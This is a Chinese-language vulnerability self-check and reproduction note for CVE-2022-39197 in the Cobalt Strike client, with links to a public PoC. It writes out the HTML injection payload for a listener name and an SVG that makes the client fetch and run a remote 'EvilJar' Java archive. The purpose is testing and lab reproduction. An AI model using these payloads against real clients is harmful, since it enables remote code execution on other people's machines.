 

参考：

> [简单复现](https://mp.weixin.qq.com/s?__biz=MzkyMDE4NzE1Mw==&mid=2247484355&idx=1&sn=1d2df2c1eac378875fe1c0d408478979&scene=21#wechat_redirect)
>
> [简单2](https://mp.weixin.qq.com/s/1FUvdOqmDPcFptlfkDk-rg)
>
> poc:   https://github.com/its-arun/CVE-2022-39197
>
> https://blog.csdn.net/qq_50854662/article/details/129181019



### 3.1 漏洞自查

​	受该漏洞影响的版本:Cobalt Strike <= 4.7
​	连接Cobalt Strike服务端，启动Cobalt Strike客户端。
​	客户端配置监听器，名称处输入以下代码： 

```
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name= 'URI' value='http://xxx/a.svg'></object>
```

​	代码含义：创建一个SVG画布对象。classid属性指定要使用的Java类库，这里是Apache Batik的SVG画布类org.apache.batik.swing.JSVGCanvas。这个类库可以在Java应用程序中显示和操作SVG图像。`<param>`标记用于传递参数给SVG画布对象，这里的参数是SVG图像的URL地址， URI value处设置为DNSlog地址，查看DNSlog记录判断Cobalt Strike能否远程访问，**注意：这里的URI必须以http://开头否则Swing无法解析地址,如图**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401231810438.png" alt="SVG解析地址报错" style="zoom:50%;" />



1）payload选项默认，这里用dnslog原理测试漏洞是否存在

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402021828187.png" alt="配置监听器" style="zoom:50%;" />



2）点击保存，客户端会触发HTTP访问，查看DNSlog是否有访问记录即可判断是否有漏洞，<u>这里本地Cobalt Strike存在该漏洞</u>

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402021828841.png" alt="本地自查Cobalt Strike存在漏洞" style="zoom:50%;" />



3）进一步本地验证能否触发远程代码执行漏洞：名称处的URI value修改为本地端口9898搭建的SVG文件地址。

```
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name= 'URI' value='http://127.0.0.1:9898/evil.svg'></object>
```

4）提前准备的SVG文件内容：表示一个SVG图像，其中SVG脚本元素包含一个指向一个jar包的超链接，并将其作为脚本引入SVG图形中，SVG被触发会访问远程jar包

```
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" xmlns:xlink ="http://www.w3.org/1999/xlink"><script type="application/java-archive" xlink:href= "http://127.0.0.1:9898/EvilJar-mac-calc.jar"> </script> </svg>
```
